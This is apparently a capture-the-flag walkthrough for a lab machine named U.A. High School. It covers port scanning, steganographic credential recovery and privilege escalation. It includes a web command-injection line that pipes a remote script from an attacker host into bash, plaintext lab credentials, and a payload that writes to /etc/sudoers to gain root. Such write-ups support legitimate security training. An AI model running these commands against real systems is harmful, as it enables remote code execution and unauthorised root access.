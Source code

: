 ## nmap
```
➜  U.A.HighSchool git:(main) ✗ nmap -sCV -vv -oN scan.txt 10.10.234.137

...SNIP...
Scanning 10.10.234.137 [1000 ports]
Discovered open port 22/tcp on 10.10.234.137
Discovered open port 80/tcp on 10.10.234.137
```

## Revshell
```
http://10.10.234.137/assets/index.php?cmd=curl%2010.9.0.127:8000/x|bash
```

## passwd
```
www-data@myheroacademia:/var/www$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
...SNIP...
deku:x:1000:1000:deku:/home/deku:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
```

## Forensics
```
- Fix file signature from PNG to JPEG

www-data $ cat /var/www/Hidden_Content/passphrase.txt  | base64 -d
AllmightForEver!!!

╭─nutthanon@ubuntu ~/playground
╰─$ steghide extract -sf oneforall.jpg
Enter passphrase: AllmightForEver!!!
wrote extracted data to "creds.txt".
╭─nutthanon@ubuntu ~/playground
╰─$ ls
creds.txt  oneforall.jpg  revshell.war  RsaCtfTool  solve.py  x
╭─nutthanon@ubuntu ~/playground
╰─$ cat creds.txt
Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:

deku:One?For?All_!!one1/A
```

## Deku
`deku:One?For?All_!!one1/A`

```
deku@myheroacademia:~$ cat user.txt
THM{SNIP}
```

## root
User Deku has privilege to run sudo follow path `/opt/NewComponent/feedback.sh`
```
deku@myheroacademia:/tmp$ sudo -l
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
```

But this file have many fiter to protect command injection but look at the power of `echo` command
```
deku@myheroacademia:/tmp$ cat /opt/NewComponent/feedback.sh
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input."
fi
```

The linux `echo` command will display the content inside of a string or quote, but in Linux we can create a new file or add a new line to the file by using `>` or `>>` in order.

Look at filter again; they do not filter `>` that means it can be create a new file or add a new line using root privilege. 

That means if I add a new line in `/etc/sudoers` with `deku ALL=/bin/bash` and when I run `sudo -l` again, It's supposed to see the user `deku`  can run the `sudo /bin/bash` and gain access to root shell.

The payload  is `"deku ALL=/bin/bash" >> /etc/sudoers`

```
deku@myheroacademia:/tmp$ sudo /opt/NewComponent/feedback.sh
Hello, Welcome to the Report Form
This is a way to report various problems
    Developed by
        The Technical Department of U.A.
Enter your feedback:
"deku ALL=/bin/bash" >> /etc/sudoers
It is This:
Feedback successfully saved.

deku@myheroacademia:/tmp$ sudo -l
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
    (root) /bin/bash
    
deku@myheroacademia:/tmp$ sudo /bin/bash
root@myheroacademia:/tmp# id
uid=0(root) gid=0(root) groups=0(root
```

## Roooooooooooot
```
root@myheroacademia:/opt/NewComponent# cat /root/root.txt
__   __               _               _   _                 _____ _
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                  _    _
             _   _        ___    | |  | |
            | \ | | ___  /   |   | |__| | ___ _ __  ___
            |  \| |/ _ \/_/| |   |  __  |/ _ \ '__|/ _ \
            | |\  | (_)  __| |_  | |  | |  __/ |  | (_) |
            |_| \_|\___/|______| |_|  |_|\___|_|   \___/

THM{SNIP}
```
